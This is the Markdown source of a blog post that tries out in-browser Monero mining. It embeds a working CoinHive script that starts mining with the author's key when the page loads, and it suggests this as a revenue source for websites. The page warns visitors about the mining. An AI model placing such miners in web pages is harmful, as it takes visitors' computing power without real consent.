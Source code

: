 ```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: Via Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>

I've hard coded the miner to only operate using 1 thread so it does not hog your CPU.
If you wanted to maximize your Hash Rate you could run a thread per core and these numbers would be 2x-4x greater.
___

### So what can this be used for?
1. Used as an additional revenue source for websites
2. Offer premium services to customers who run miner



